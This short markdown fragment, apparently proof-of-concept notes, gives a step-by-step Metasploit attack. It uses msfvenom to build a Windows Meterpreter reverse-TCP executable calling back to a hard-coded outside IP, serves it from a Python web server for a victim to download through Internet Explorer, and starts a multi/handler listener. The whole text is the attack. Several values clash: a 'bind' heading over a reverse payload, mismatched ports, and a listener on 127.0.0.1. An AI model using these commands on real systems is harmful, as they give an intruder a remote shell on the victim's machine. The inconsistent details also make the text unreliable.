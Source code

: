 #### Payload (for bind) (PoC)

##### Generate Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=72.69.76.76 LPORT=45241 -f exe > payload.exe
```

##### Attacker web server
```
python -m http.server 45241
```

## From Windows internet explorer
http://72.69.76.76:45141
download payload .exe

## Persistent Listener
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 45241
set exitonsession false
exploit -j
```